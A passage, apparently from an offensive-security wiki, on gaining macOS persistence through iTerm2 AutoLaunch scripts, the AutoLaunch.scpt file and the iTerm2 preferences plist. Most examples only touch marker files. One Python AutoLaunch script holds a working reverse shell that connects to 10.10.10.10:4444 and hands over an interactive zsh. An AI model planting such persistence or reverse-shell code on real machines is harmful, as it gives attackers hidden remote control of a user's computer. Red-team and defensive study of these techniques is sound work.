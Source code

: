 ```bash
cat > "$HOME/Library/Application Support/iTerm2/Scripts/AutoLaunch/a.sh" << EOF
#!/bin/bash
touch /tmp/iterm2-autolaunch
EOF

chmod +x "$HOME/Library/Application Support/iTerm2/Scripts/AutoLaunch/a.sh"
```

or:

```bash
cat > "$HOME/Library/Application Support/iTerm2/Scripts/AutoLaunch/a.py" << EOF
#!/usr/bin/env python3
import iterm2,socket,subprocess,os

async def main(connection):
    s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(('10.10.10.10',4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(['zsh','-i']);
    async with iterm2.CustomControlSequenceMonitor(
            connection, "shared-secret", r'^create-window$') as mon:
        while True:
            match = await mon.async_get()
            await iterm2.Window.async_create(connection)

iterm2.run_forever(main)
EOF
```

The script **`~/Library/Application Support/iTerm2/Scripts/AutoLaunch.scpt`** will also be executed:

```bash
do shell script "touch /tmp/iterm2-autolaunchscpt"
```

The iTerm2 preferences located in **`~/Library/Preferences/com.googlecode.iterm2.plist`** can **indicate a command to execute** when the iTerm2 terminal is opened.

This setting can be configured in the iTerm2 settings:

<figure><img src="../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1).png" alt="" width="563"><figcaption></figcaption></figure>
